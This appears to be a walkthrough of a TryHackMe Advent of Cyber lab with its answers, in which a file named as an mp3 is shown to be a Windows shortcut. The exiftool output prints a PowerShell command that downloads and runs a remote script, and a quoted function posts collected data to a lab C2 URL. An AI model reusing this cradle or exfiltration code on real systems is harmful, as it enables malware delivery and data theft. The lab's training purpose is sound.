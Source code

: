 # Try Hack Me

##  Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

### Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 


```shell
exiftool somg.mp3 
ExifTool Version Number         : 13.04
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.2 kB
File Modification Date/Time     : 2024:10:30 14:32:52-03:00
File Access Date/Time           : 2024:12:01 18:40:22-03:00
File Inode Change Date/Time     : 2024:12:01 18:40:21-03:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 04:14:14-03:00
Access Date                     : 2018:09:15 04:14:14-03:00
Modify Date                     : 2018:09:15 04:14:14-03:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : A8A4-C362
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```

```shell
exiftool song.mp3
ExifTool Version Number         : 13.04
File Name                       : song.mp3
Directory                       : .
File Size                       : 4.6 MB
File Modification Date/Time     : 2024:10:24 09:50:46-03:00
File Access Date/Time           : 2024:12:01 18:40:22-03:00
File Inode Change Date/Time     : 2024:12:01 18:40:21-03:00
File Permissions                : -rwxrwxr-x
File Type                       : MP3
File Type Extension             : mp3
MIME Type                       : audio/mpeg
MPEG Audio Version              : 1
Audio Layer                     : 3
Audio Bitrate                   : 192 kbps
Sample Rate                     : 44100
Channel Mode                    : Stereo
MS Stereo                       : Off
Intensity Stereo                : Off
Copyright Flag                  : False
Original Media                  : False
Emphasis                        : None
ID3 Size                        : 2176
Artist                          : Tyler Ramsbey
Album                           : Rap
Title                           : Mount HackIt
Encoded By                      : Mixcraft 10.5 Recording Studio Build 621
Year                            : 2024
Genre                           : Rock
Track                           : 0/1
Comment                         : 
Date/Time Original              : 2024
Duration                        : 0:03:11 (approx)
```

*Answer: Tyler Ramsbey*

### The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

Going into `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`

We can see this code

```ps1
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
```

*Answer: http://papash3ll.thm/data*

### Who is M.M? Maybe his Github profile page would provide clues?

Going into this readme `https://github.com/MM-WarevilleTHM/M.M`

*Answer: Mayor Malware*

### What is the number of commits on the GitHub repo where the issue was raised?

Going into the repository itself within commits we can see them

`https://github.com/MM-WarevilleTHM/IS/commits/main/`

*Answer: 1